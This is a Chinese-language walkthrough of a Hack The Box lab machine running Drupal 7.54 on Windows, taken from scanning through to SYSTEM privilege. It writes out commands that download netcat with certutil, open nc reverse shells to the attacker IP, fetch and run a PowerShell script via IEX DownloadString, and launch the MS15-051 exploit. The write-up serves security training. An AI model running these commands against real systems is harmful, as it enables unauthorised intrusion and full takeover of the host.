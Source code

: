 # 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.9 -oA scans/ports
...
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown
...
root@kali# nmap -sT -sC -sV -O -p80,135,49154 10.10.10.9 -oA scans/details
...
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

我们可以看到该网站正在运行IIS7.5，这是Windows 7的默认IIS，此外我们还可以看到该Web服务器正在托管Drupal 7。

## Drupal - TCP 80

![截图](d533dcacbe850c511fccac9d0ea00504.png)

刚刚nmap扫描出了robots.txt文件，接着查看CHANGELOG.txt来确定

![截图](8cb3f6900db35719db0b98d903bd9407.png)

```
root@kali# curl -s http://10.10.10.9/CHANGELOG.txt | head

Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
  interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
  (API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
```

发现版本：Drupal 7.54。

# 漏洞检测与利用

## searchsploit

通过searchsploit查询可利用版本

```
searchsploit drupal 7.x
```

![1721567992690.png](ee082b0f702f0e6300d521aa86b37dd2.png)

该版本存在 rce ，编辑 exploit，该exploit会攻击由服务扩展创建的REST端点，我们只需要找出REST端点的名称即可利用该漏洞。

通过目录枚举，我们发现 endpoint 为 /rest，用其替换exploit。

```
gobuster -q dir --url http://10.10.10.9 -t 50 --wordlist ./word.txt
```

![截图](6a03092b1a08a236ce05a5ab74ee21e3.png)

![截图](e8a7e5d1e44a59a4e85fdb4f5e923ada.png)

![截图](06333368d88a220a6d1d3cccbd8d3d20.png)

执行脚本前需要安装php-curl否则无法运行成功

```
apt-get install php-curl
```

命令执行成功

![截图](ce4ec0a642b8b684eaebe7131d073f4a.png)

## 反弹shell

### 通过certutil命令将nc下载到靶机中

```
http://10.129.115.43/shell.php?cmd=certutil -urlcache -f http://10.10.14.58:8001/nc64.exe nc64.exe //下载nc
http://10.129.115.43/shell.php?cmd=nc64.exe 10.10.14.58 1234 -e cmd  //反弹shell
```

> Certutil 是 Windows 操作系统上预装的工具，可用于 校验文件MD5、SHA1、SHA256，下载恶意文件和免杀。
> 
> certutil -urlcache -f http://10.10.14.58:8001/nc64.exe nc64.exe:
> 
> certutil：调用 certutil 工具。
> 
> -urlcache：指定 certutil 使用 URL 缓存子命令。这通常用于从 URL 下载文件或显示缓存的 URL 数据。
> 
> -f：强制覆盖现有文件（如果目标文件已经存在）。

![截图](c713c9806c9e768d5e38801eca42b90c.png)

成功获取shell

![截图](280bcbe54b628371f650b90bf57a2536.png)

# 提权

systeminfo查询该计算机的相关信息

```
PS C:\inetpub\drupal-7.54> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ??
System Boot Time:          4/3/2019, 1:56:57 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.048 MB
Available Physical Memory: 1.550 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.582 MB
Virtual Memory: In Use:    513 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

使用Sherlock.ps1查找系统缺少的版本补丁与漏洞   https://github.com/rasta-mouse/Sherlock

> 提权小神器Sherlock的分析与利用：
> 
> Sherlock是一个在Windows下用于本地提权的PowerShell脚本。
> 
> 目前包含了以下漏洞：
> 
> MS10-015 : User Mode to Ring (KiTrap0D)
MS10-092 : Task Scheduler
MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
MS13-081 : TrackPopupMenuEx Win32k NULL Page
MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
MS15-051 : ClientCopyImage Win32k
MS15-078 : Font Driver Buffer Overflow
MS16-016 : ‘mrxdav.sys’ WebDAV
MS16-032 : Secondary Logon Handle

在运行该脚本前需要在脚本中添加Find-ALLvulns查找所有漏洞

```
http://10.129.115.58/shell.php?cmd=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.58:8001/Sherlock.ps1') | powershell -noprofile 
```

> echo IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')：
> 
> IEX 是 Invoke-Expression 的缩写，PowerShell 中的一个命令，用于执行传入的字符串表达式。在此命令中，它将执行从 URL 下载的 PowerShell 脚本内容。
> 
> New-Object System.Net.Webclient 创建一个新的 WebClient 对象，该对象用于进行网络操作。
> 
> DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1') 方法从指定的 URL 下载内容，并以字符串形式返回下载的内容。URL 指向了一个名为 Sherlock.ps1 的 PowerShell 脚本文件。

使用MS15-051进行提权

![截图](d3cc076e97da3f61e2af4f8d61f250d5.png)

将ms15-051x64.exe下载到靶机中并命名为Shell.exe
使用nc反弹shell

```
certutil -urlcache -f http://10.10.14.58:8000/ms15-051x64.exe Shell.exe 
Shell.exe "nc64.exe 10.10.14.58 4242 -e cmd.exe"
```

![截图](57b181b03455c5ea176ed9ee7616ccb6.png)

成功获取到system权限

![截图](f288349b223d0304f42cf11f1778fb95.png)